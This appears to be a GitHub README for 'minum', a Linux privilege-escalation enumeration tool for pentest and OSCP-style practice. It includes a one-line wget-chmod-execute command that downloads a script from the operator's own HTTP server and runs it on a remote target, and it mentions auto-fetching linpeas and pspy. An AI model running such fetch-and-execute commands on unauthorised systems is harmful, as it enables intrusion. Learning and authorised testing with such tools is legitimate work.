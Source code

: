 # minum : Minimal Enumeration Tool

This enumeration for privilege escalation tool, unlike many others, is built towards the idea of finding the top most relevant privilege escalation vectors for its user.  
The idea is to prevent throwing a lot of things at the user and let him begin searching for a needle in a haystack.  

Instead, it will ask you for your preferable routes throughout its running and will present to the user only the interesting stuff.
Letting you spend more time on exploiting and less time on reading tons of text all over the place.  
At the end it will also load for you linpeas.sh automatically in case you want an indepth lookout.  

Have fun, and use my tool for good purposes! Educational purposes ONLY !!

P.S

Have some suggestions? Leave an issue and we will be able to look at it and make modifications.

Cheers!

## Install
On your local machine:
```
git clone https://github.com/nirzaaa/minum.git
cd minum
python -m http.server
```
p.s.  
Pay attention to play `linpeas.sh` and `pspy64` in that folder so we will be able to download it for you automatically :)

On the remote machine:
```
wget <my_ip>:<my_port>/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh
```

## Usage

You can download the script to the remote machine and run it for you automatically by using:  
`wget <my_ip>:<my_port>/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`

## Suggestions
Have any suggestions? Something is missing? (:grimacing:) You can leave us an issue and we will look into it :smiley:

## Support us
A wise man once said that 160 cups of coffee equals 1 attempt for the oscp exam.  
Take me a coffee step further towards the opportunity of a lifetime :unicorn:  
  
[![name](https://user-images.githubusercontent.com/117816100/206117004-54c33ba1-918e-43d2-96b4-b71018455a1e.png)](https://www.buymeacoffee.com/nirza)

